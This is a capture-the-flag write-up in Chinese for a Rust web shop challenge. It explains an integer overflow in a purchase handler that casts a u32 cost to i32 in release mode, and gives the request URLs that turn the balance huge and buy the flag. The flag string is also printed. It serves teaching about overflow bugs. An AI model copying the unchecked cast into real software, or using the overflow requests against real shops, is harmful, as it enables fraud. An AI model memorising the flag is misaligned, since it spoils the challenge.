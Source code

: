 # cargo_shop

## Description

```
你会使用 Rust 算数吗?
```

Flag: `0xGame{Rewrite_GoShop_in_Rust_cd57122cfed3}`

## Writeup

考点: 整数溢出 & release 模式

`cargo install` 在编译 crate 的时候使用的是 release 模式, 和 `cargo build --release` 类似

Rust 在 release 模式下**不**检测整数溢出, 而是会按照补码循环溢出的规则处理 (例如变量范围位于 `-128 - 127`, 那么 `127 + 1` 的结果会是 `-128`)

purchase 函数

```rust
#[get("/purchase/{name}/{count}")]
async fn purchase(info: web::Path<(String, u32)>, session: Session) -> Result<String> {
    let Some(mut user) = session.get::<User>("user")? else {
        return Ok("user not found".to_string());
    };

    let (name, count) = info.into_inner();

    let Some(goods) = GOODS_LIST.iter().find(|v| v.name == name) else {
        return Ok("goods not found".to_string());
    };

    let costs = (goods.prize * count) as i32;

    if costs <= user.balance {
        user.balance -= costs;

        if let Some(hold) = user.holds.iter_mut().find(|v| v.goods.name == goods.name) {
            hold.inventory += count;
        } else {
            user.holds.push(Hold {
                goods: goods.clone(),
                inventory: count,
            });
        }

        session.insert("user", user)?;
        Ok(format!("purchase {} x {} success", name, count))
    } else {
        Ok(format!("you don't have enough balance"))
    }
}
```

其中如下的语句

```rust
let costs = (goods.prize * count) as i32;
```

goods.prize 和 count 都是 u32 类型, 最终计算的 costs 是 i32 类型, 在强制类型转换的情况下会出现整数溢出的风险

经过搜索得知 Rust i32 的范围为 `-2147483648 ~ 2147483647`, 于是很容易构造出如下的 payload

```
http://cargoshop.challenge.exp10it.io/purchase/tokio/203333333
```

请求之后会发现 balance 变成非常大, 然后再购买一次 flag 商品即可得到 flag

```
http://cargoshop.challenge.exp10it.io/purchase/flag/1
http://cargoshop.challenge.exp10it.io/flag
```
